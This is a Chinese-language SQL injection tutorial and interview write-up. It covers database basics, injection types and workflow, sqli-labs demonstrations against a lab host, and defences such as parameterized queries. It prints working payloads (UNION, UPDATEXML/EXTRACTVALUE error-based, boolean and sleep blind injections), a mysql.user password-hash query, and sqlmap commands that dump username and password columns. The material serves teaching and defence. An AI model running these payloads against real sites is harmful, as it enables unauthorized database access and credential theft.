

# SQL 注入漏洞讲解

> **<20230906  以下内容仅作为本次面试记录>**

> 思路：数据库相关--》SQL 注入原理及类型--》SQL 注入的流程--》案例演示--》SQL 注入危害与防御

## 0x00 关于DB

[数据库是**结构化信息或数据的有序集合**，一般以电子形式存储在计算机系统中。](https://www.oracle.com/cn/database/what-is-database/)[1](https://www.oracle.com/cn/database/what-is-database/)[ 数据库的作用是**存储、管理、查询和分析数据**，为用户或应用程序提供高效、安全、可靠的数据服务。](https://zhuanlan.zhihu.com/p/136818639)[2](https://zhuanlan.zhihu.com/p/136818639)

### 00x00 数据库种类

```
有许多不同种类的数据库，每种都有其特定的用途和特点。以下是一些常见的数据库类型：

1. 关系型数据库（RDBMS）：关系型数据库以表格的形式存储数据，使用结构化查询语言（SQL）进行查询和管理。最常见的关系型数据库是MySQL、Oracle、Microsoft SQL Server和PostgreSQL。
	1). MySQL
    2). Oracle Database
    3). Microsoft SQL Server (MSSQL)
    4). PostgreSQL
    5). SQLite
    6). IBM DB2
    7). Sybase
2. 非关系型数据库（NoSQL）：非关系型数据库通常用于存储非结构化或半结构化的数据，例如文档、键值对、列族或图形数据。常见的非关系型数据库类型包括MongoDB、Cassandra、Redis和Neo4j。
	1). MongoDB（文档型数据库）
    2). Cassandra（列族数据库）
    3). Redis（键值对数据库）
    4). Neo4j（图数据库）
    5). Elasticsearch（搜索引擎）
    6). Couchbase（文档型数据库）
    7). Apache HBase（列族数据库）
    8). Apache Kafka（流数据平台）
3. 对象数据库：对象数据库将数据存储为对象，以支持面向对象编程和更复杂的数据模型。这些数据库允许直接存储和检索对象，而不需要将它们转换为关系结构。一些著名的对象数据库包括db4o和Versant.
4. 图数据库：图数据库用于存储和管理图形数据，其中数据的关系表示为节点和边。图数据库对于处理具有复杂连通性和关系的数据非常有用，例如社交网络和推荐系统。Neo4j是一种流行的图数据库。
5. 内存数据库：内存数据库将数据存储在计算机内存中，而不是传统磁盘存储。这使其具有非常快的数据访问和查询速度，适用于需要高性能的应用程序，如金融交易和实时数据处理。一些常见的内存数据库包括Redis、Memcached和SAP HANA。
6. 时间序列数据库：时间序列数据库用于存储和分析按时间顺序排列的数据，例如传感器数据、日志文件和金融数据。它们具有高效的存储和查询机制，能够处理大规模的时间序列数据。一些著名的时间序列数据库包括InfluxDB、Prometheus和OpenTSDB。

这只是一小部分数据库类型的例子，还有其他类型的数据库，例如列存储数据库、XML数据库和空间数据库，每个都针对特定的数据和应用需求设计。选择适合你的需求的数据库类型通常需要考虑数据模型、数据访问模式、性能需求和可扩展性等因素。
```

**目前实际生产企业应用较为广泛的关系型数据库为MySQL、Oracle、MSSQL、DB2；非关系型数据库为Redis、Elasticsearch**


### 00x01 MYSQL 特性

```tex
MySQL是一种广泛使用的关系型数据库管理系统（RDBMS）。以下是MySQL数据库的一些特性和相关的风险分析：

特性：
1. 可靠性和稳定性：MySQL具有成熟的数据库技术，已经经过长时间的发展和测试，因此在可靠性和稳定性方面表现良好。
2. 开源和广泛支持：MySQL是开源软件，拥有活跃的开源社区，提供广泛的支持和资源。这意味着用户可以获得免费的版本，并且可以通过社区来解决问题。
3. 跨平台兼容性：MySQL可在多个操作系统上运行，包括Windows、Linux、Mac等，具有较好的跨平台兼容性。
4. 高性能：MySQL具有优化的查询引擎和索引机制，可以提供高性能的数据读写操作。此外，它还支持并发访问和事务处理，能够处理大量并发请求。
5. 扩展性：MySQL支持水平和垂直扩展，可以通过添加更多的服务器或增加硬件资源来实现横向或纵向的扩展。

风险分析：
1. 安全性风险：MySQL使用用户名和密码进行身份验证，如果弱密码、不正确的权限设置和不安全的网络配置可能导致安全漏洞和潜在的攻击。必须采取适当的安全措施来保护数据库免受未经授权的访问和数据泄露的威胁。
2. 数据丢失和损坏风险：MySQL数据库可能面临数据丢失和损坏的风险，如硬件故障、电源中断、软件错误或人为操作错误。定期备份和实施灾备方案可以减轻这些风险。
3. 性能问题：虽然MySQL具有高性能的特点，但在处理大规模数据、复杂查询或高并发负载时可能会面临性能问题。合理的数据库设计、优化查询和合理的硬件配置可以减少性能问题的风险。
4. 可扩展性限制：尽管MySQL具有可扩展性，但在处理超大规模数据和高并发负载时，可能会遇到扩展性限制。这可能需要采取更复杂的架构和分布式解决方案。
5. 数据库管理和维护成本：对于大型MySQL数据库，管理和维护可能需要一定的成本和资源。这包括数据库管理员的技能和时间，以及硬件和软件的成本。

综上所述，MySQL作为常用的关系型数据库具有许多特性，但使用时需要注意相关的风险，并采取适当的措施来确保安全性、可靠性和性能。
```


- 常用 SQL 语句

  [增删查改 CURD 即Create（创建）、Update（更新）、Retrieve（检索）和Delete（删除）]

  ```
  以下是一些常见的SQL语句和其功能解释：
  
  1. SELECT：用于从数据库中检索数据。
     示例：SELECT * FROM 表名;
  
  2. INSERT INTO：用于向数据库表中插入新的行或记录。
     示例：INSERT INTO 表名 (列1, 列2, 列3) VALUES (值1, 值2, 值3);
  
  3. UPDATE：用于更新数据库表中已存在的行或记录。
     示例：UPDATE 表名 SET 列名1=新值1, 列名2=新值2 WHERE 条件;
  
  4. DELETE FROM：用于从数据库表中删除行或记录。
     示例：DELETE FROM 表名 WHERE 条件;
  
  5. CREATE DATABASE：用于创建新的数据库。
     示例：CREATE DATABASE 数据库名;
  
  6. CREATE TABLE：用于创建新的数据表。
     示例：CREATE TABLE 表名 (列1 数据类型, 列2 数据类型, 列3 数据类型);
  
  7. ALTER TABLE：用于修改已存在的数据表结构。
     示例：ALTER TABLE 表名 ADD 列名 数据类型;
  
  8. DROP TABLE：用于删除已存在的数据表。
     示例：DROP TABLE 表名;
  
  9. JOIN：用于联结两个或多个表，并基于共同的列将它们连接起来。
     示例：SELECT * FROM 表1 INNER JOIN 表2 ON 表1.列 = 表2.列;
  
  10. WHERE：用于筛选符合特定条件的行或记录。
      示例：SELECT * FROM 表名 WHERE 条件;
  
  这只是一小部分常见的SQL语句，实际上SQL语言非常强大且灵活，支持各种操作和查询。具体的语法和用法可能会根据不同的数据库系统略有差异，因此请根据使用的数据库产品的文档进行更详细的学习和参考。
  ```

- 渗透测试 SQL 语句

  ```
  1. SQL 注入
  	示例：SELECT * FROM users WHERE username = 'admin' OR '1'='1'; 字符型SQL注入检测语句
  2. SQL 枚举
  	示例：
  		SELECT schema_name FROM information_schema.schemata; 查库相关信息
  		SHOW TABLES FROM <database_name>; 查某具体库的所有表的信息
  		SHOW COLUMNS FROM <table_name> FROM <database_name>; 列信息
  3. SQL 提权
  	示例：SELECT User, Host, authentication_string FROM mysql.user WHERE SUPER_PRIV = 'Y';
  ```

## 0x01 SQL 注入漏洞

### 01x00 SQL 注入原理

```
SQL 注入是一种攻击方式，它利用了 web 应用程序对用户输入的数据没有进行充分的过滤或验证，从而使攻击者能够在数据库中执行恶意的 SQL 语句，获取或修改数据库中的数据。SQL 注入的原理是将用户输入的数据当作 SQL 语句的一部分来执行，从而破坏了数据与代码分离的原则。
```

- 简单来说就是在web 应用程序中因为未对输入数据(如登录框、URL中等会同数据库联动的地方)进行过滤或验证过造成攻击者执行非预期的甚至恶意的 SQL 语句


### 01x01 SQL 注入类型

| 数据类型       | 注入手法                                                     | 提交参数的方式                                               | 注入点位置                                                   |
| -------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 数字型；字符型 | 联合查询；报错注入；布尔盲注；延时注入；堆叠查询；DNSLog 外带查询；二次注入；… | GET 注入；POST 注入；Cookie 注入；HTTP 头部注入；UA注入；... | 宽字节注入；URL 注入；搜索框注入；留言板注入；登录框注入；... |


- 数字型注入

  ```
  前端输入框 ?id = 1a 参数后加一个字符返回正常为数字型
  
  后端执行语句 select * from table where id = 1a
  ```

- 字符型注入

  ```
  前端输入框 ?id = 1' 参数后加一个引号返回正常为字符型
  
  后端执行语句 select * from table where id = 1'
  ```

  - 数字型、字符型主要看是否使用单/双引号

- 联合查询

  ```
  前端输入框 ?id = 1 UNION SELECT 1,2,3
  
  后端执行语句 select * from table where id = 1 UNION SELECT 1,2,3
  
  前端输入确认后会回显结果的即联合查询注入
  ```

- 报错注入

  ```
  前端输入框 ?id = 1 AND (SELECT * FROM users WHERE 1=2)
  
  后端执行语句 select * from table where id = 1 AND (SELECT * FROM users WHERE 1=2)
  
  无回显结果，但有报错信息
  AND UPDATEXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)
  AND EXTRACTVALUE(1, CONCAT(0x5e, (SELECT database()), 0x5e))
  ```

- 布尔盲注

  ```
  前提：无回显，无报错
  
  前端输入框 ?id = 1 AND 1=1 正常显示业务信息
  前端输入框 ?id = 1 AND 1=2 未正常显示业务信息
  ```

- 延时注入 sleep() benchmark()

  ```
  前提：无回显，无报错，非布尔盲注
  
  前端输入框 ?id = 1 and sleep(5) 看页面是否延迟刷新
  
  延时注入的流程有以下几步：
  使用length()函数判断查询结果的长度，如数据库名、表名、字段名等。
  使用substr()函数截取每一个字符，并使用ascii()函数穷举出字符内容。
  使用limit子句限制查询的数量，如表名、字段名等。
  使用information_schema表获取数据库的元数据信息。
  ```

  

- 提交参数的方式

  需要用到代理工具，或者说拦截/抓包工具，BP

  


## 0x02 SQL 注入流程

### 02x00 常规流程

1. 手工测试/扫描器

   检测是否存在SQL 注入漏洞，注入点

2. 探测后台数据库类型、属性

   采用不同的数据库注入策略包进行进一步取证和渗透

   ```
   - 页面报错信息；
   - 数据库特有的表，如MySQL 的information_schema
   - 数据库特有的连接符，如MySQL 的 CONCAT
   ```

3. 定位出是什么类型的 SQL 注入漏洞

   (数字型、字符型)、(联合查询、报错注入、布尔盲注、延时注入、堆叠注入 ...)

4. 根据SQL 注入类型采用对应的方式进行猜解

   包括字段数、显示位、当前库名/库名长度、库中表名/表名长度、表中列名/列名长度

5. 拿到可操控数据库的账户密码

   下载数据（非授权不允许）

```
- 寻找注入点：即与数据库存在交互的地方
	登录框、检索框、增删改查比较频繁地方（添加/删除用户）
```

### 02x01 使用工具

SQLMap，思路同上

```
注入点：http://10.10.10.6/cms/show.php?id=33
sqlmap -u "http://10.10.10.1/show.php?id=33"
sqlmap -u "http://10.10.10.1/show.php?id=33" --dbs
sqlmap -u "http://10.10.10.1/show.php?id=33" --current-db
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "sercurity" --tables
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "sercurity" -T "users" --columns
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "sercurity" -T "users" -C "username,password" --dump
```


## 0x03 案例演示 (sqli-labs)

’ ” --+ 或--_ 或#作为闭合条件

- 数字型注入

  ```
  以注入点 http://42.193.43.191:1025/Less-2/?id=1 为例，
  参数?id=1 时，后端执行select * from table where id = 1，作如下测试
  1. 参数后附加'或"，即?id=1' 或?id=1"，页面异常
  2. 参数后附加 and 1=1 --+，即?id=1 and 1=1 --+ 页面同未加任何参数前运行结果相同
  3. 参数后附加 and 1=2 --+，即?id=1 and 1=2 --+ 页面异常
  满足以上三者，即注入点存在数字型注入漏洞
  ```

- 字符型注入

  ```
  以注入点 http://42.193.43.191:1025/Less-1/?id=1 为例，
  参数?id=1 时，后端执行select * from table where id = 1，作如下测试
  1. 参数后附加'或"，即?id=1' 或?id=1"，页面异常
  2. 参数后附加' and '1'='1 #，即?id=1' and '1'='1 # 页面同未加任何参数前运行结果相同
  3. 参数后附加' and '1'='2 #，即?id=1' and '1'='2 # 页面异常
  满足以上三者，即注入点存在字符型注入漏洞
  ```

- 联合查询

  ```
  以注入点 http://42.193.43.191:1025/Less-1/?id=-1 为例，
  参数?id=-1 时，后端执行select * from table where id = -1，作如下测试
  1. 已判断出是字符型或数字型注入漏洞；
  2. 参数后附加' union select 1,2,3 --+ 页面正常加载，会出现显示位
  3. 参数后附加' union select 1,2,3,4 --+ 页面异常
  满足以上三者，即注入点存在联合查询
  ```

- 报错注入

  ```
  以注入点 http://42.193.43.191:1025/Less-5/?id=1 为例，
  参数?id=1 时，后端执行select * from table where id = 1，作如下测试
  1. 已判断非联合查询注入漏洞
  2. 参数后附加' union select 1,2,3 --+ 页面同未加任何参数前运行结果相同
  3. 参数后附加' union select 1,2,3,4 --+ 有报错无回显位
  满足以上三者，即注入点存在字符型注入漏洞
  AND UPDATEXML(1,CONCAT(0x7e,(SELECT database()),0x7e),1)
  AND EXTRACTVALUE(1, CONCAT(0x5e, (SELECT database()), 0x5e))
  ```

- 布尔盲注

  ```
  以注入点 http://42.193.43.191:1025/Less-8/?id=1 为例，
  参数?id=1 时，后端执行select * from table where id =1，作如下测试
  1. 非报错注入
  2. 参数后附加'或“， 即?id=1' 或?id=1"，页面异常，且无报错无回显
  3. 参数后附加' and '1'='1 #，即?id=1' and '1'='2 # 页面同未加任何参数前运行结果相同
  4. 参数后附加' and '1'='2 #，即?id=1' and '1'='2 # 页面异常
  满足以上三者，即注入点存在布尔盲注漏洞
  
  
  ```

- 延时注入

  ```
  以注入点 http://42.193.43.191:1025/Less-9/?id=1 为例，
  参数?id=1 时，后端执行select * from table where id =1，作如下测试
  1. 经测无联合查询、报错注入、布尔盲注这三类漏洞
  2. 参数后附加' and sleep(5)--+，页面加载5s 后显示正常
  满足以上两者，即注入点存在布尔盲注漏洞
  ```

- 二次注入

  ```
  二次注入是一种 SQL 注入的变形，它利用了数据库对自己存储的数据过于信任的缺陷，从而使攻击者能够在数据库中存入恶意的 SQL 语句，然后在数据被读取并拼接到 SQL 查询中时触发注入。二次注入的原理是在第一次插入数据时，使用转义或注释符来绕过过滤或验证，使恶意数据能够存入数据库中，然后在第二次使用数据时，不进行转义或过滤，使恶意数据能够作为 SQL 语句的一部分来执行。二次注入的利用需要满足以下两个条件：
  
  用户能够向数据库插入恶意语句，即使后端代码对语句进行了转义或验证。
  数据库对自己存储的数据不进行转义或过滤，直接取出恶意数据给用户。
  要防御二次注入，应该采取以下措施：
  
  对所有用户输入进行验证，测试类型、长度、格式和范围，拒绝包含二进制数据、转义序列和注释字符的输入内容。
  使用预处理和参数化的 SQL 语句，避免直接拼接用户输入到 SQL 查询中。
  对数据库存储的数据进行转义或过滤，不要直接信任数据库中的数据。
  ```


## 0x04 SQL 注入危害

```
SQL注入攻击的主要危害包括：
非法读取、篡改、添加、删除数据库中的数据；
盗取用户的各类敏感信息，获取利益；
通过修改数据库来修改网页上的内容；
私自添加或删除账号；
	由于SQL 注入攻击一般利用的是利用的是SQL 语法，这使得于所有基于SQL 语言标准的数据库软件都有可能受到攻击，并且攻击的发生和Web编程语言本身也无关，如ASP、JSP、PHP，在理论上都无法完全幸免。
```


## 0x05 SQL 注入防御

```
要避免 SQL 注入，应该采取以下措施：

使用预编译语句或参数化查询，避免在SQL语句中直接拼接用户输入的数据。
对用户输入的数据进行验证或过滤，移除或转义SQL中的关键字符，如'、%、_等。
限制数据库用户的权限和特权，只赋予最低要求的功能，防止攻击者执行额外的操作。
避免直接向用户显示数据库的错误信息，攻击者可能利用这些信息获取数据库的结构或内容。
使用**WAF（Web应用防火墙）**产品，识别并阻止SQL注入尝试，保护Web应用程序和数据库。
定期测试与数据库交互的Web应用程序，捕获可能存在的SQL注入漏洞。
将数据库更新为最新的可用修补程序，防止攻击者利用已知的弱点或错误。

对所有用户输入进行验证，测试类型、长度、格式和范围，拒绝包含二进制数据、转义序列和注释字符的输入内容。
不要直接从用户输入生成 Transact-SQL
```


## 0x06 回顾

- 实际生产中应用的数据库类型：关系型(MySQL/Oracle/MSSQL)、非关系型(Redis)

- SQL 注入的基本类型：数字型/字符型、联合查询/报错注入/布尔盲注/延时注入 ...
- SQL 注入的基本流程：找注入点-》判断注入类型-》猜解数据库-》拿到数据
- SQL 注入的危害：获取数据及数据方面的延申操作、网页篡改、网页挂马、提权拿到站点


